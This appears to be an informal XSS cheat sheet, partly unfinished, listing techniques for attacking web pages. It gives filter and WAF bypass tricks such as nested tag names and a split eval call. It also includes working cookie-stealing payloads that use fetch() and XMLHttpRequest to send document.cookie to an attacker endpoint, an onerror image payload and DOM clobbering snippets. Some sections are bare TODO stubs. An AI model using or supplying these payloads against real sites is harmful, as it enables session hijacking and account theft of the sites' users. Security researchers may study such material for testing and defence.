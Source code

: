 # XSS 

### Understand what the script intends to do. 

## Blacklisting & Whitelisting
---

### 1) Page Source 
See if the page has anything, try to break it. 
### 2) Regex Filters 
https://regexr.com/ 

Use the explanations to find what you can and can't do to bypass. 
### 3) WAF ByPass 
 
Place the word inside of the word in different caps. [so close but so far ;;]
* iIMGmg
* scrSCRIPTpt
* onONERRORerror
* 'eval("al" + "ert(1)")'
* `<scr<script>ipt>`
## Making Requests 
--

### .fetch()
```js 
<script/>fetch('{REQUEST_ENDPOINT}?x=' + document.cookie);</script>
```
### XMLHTTPRequest
```js
<svg>
<script>
var xmlHttp = new XMLHttpRequest();
xmlHttp.open( "GET", "<endpoint>" + document.cookie, false );
xmlHttp.send( null );
</script>
</svg>
```
### document.createElement 
```
var c = document.createElement();
c.innerHTML = "script" 
TODO
```

### onerror, onblur 
```
<img src=x onerror=fetch()></img>
```

### Hosting your own server to upload 

## DOM Clobbering two forms 
In title 
```js
<iframe id="tk"></iframe><script>
```
In Body 
```js
<form id="rp">
  <input name="ownerDocument">
  <script>alert('pwn!')</script>
```


Using ngrok. TODO 
